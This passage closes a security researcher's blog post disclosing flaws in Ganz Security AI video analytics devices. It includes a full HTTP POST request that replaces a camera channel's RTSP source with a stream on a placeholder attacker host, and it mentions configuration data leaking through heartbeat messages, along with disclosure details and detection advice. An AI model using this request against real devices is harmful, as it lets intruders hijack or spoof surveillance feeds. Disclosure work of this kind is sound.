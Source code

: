 Every minute or so I even observed informative "Heartbeat" messages `"topic":"System/Keepalive/Heartbeat"` containing all the configuration data. So this allowed me to track every detection event of persons, vehicles etc. as well as retrieving the current state of configuration of the device repeatedly.

#### Change Video Source

The final Hollywood call? What if we could change the video input source URLs such that we'd have been able to serve our own video stream content? Here we go, changing the input source channel 14 RTSP URL with our own URL:

```
POST /itx/ai/analytics/?owner=Tom+Cruise+Ltd HTTP/1.1
Host: HOST:8443
X-Auth-Signature: [HMAC_VALUE]
Date: Mon, 19 Jun 2023 11:55:14 GMT
Connection: close
Content-Type: application/json
Content-Length: [length]

[{"ch":"14", "name":"my own channel", "url":"rtsp://[ATTACKER_HOST]/mystream"}]
```

# Conclusions

We didn't find an unauth'd RCE but at least some unauth'd "Mr. Robot bugs". Again, be aware that the Ganz Security Solutions device firmware might not be the solely responsible for these flaws. You'll find more devices by other vendors and resellers when comparing Censys results with the login page I provided in the beginning of this blog post. Full impact for now? Not sure, yet. Also, after my disclosure process, Ganz Security provided a patched firmware version (mid of July 2023) to their customers but never really disclosed any issues to the public. Check your firmware version on your devices to be at least dated to 2023.

# Internet Exposure Check

As mentioned in the introduction, a non-exhaustive Censys search revealed **more than 3000 devices** on the public Internet.

# Indicators of Compromise (IoCs)

Unfortunately, I can only give vague advices this time because I don't have shell access to such a device. These findings were found only through static analysis and tested against a few live targets over the Internet. But blocking and/or monitoring of any requests targeting `/itx` URI paths might be a good idea. Taking into account the request headers `X-Auh-Signature` and `Date` might also help to differentiate.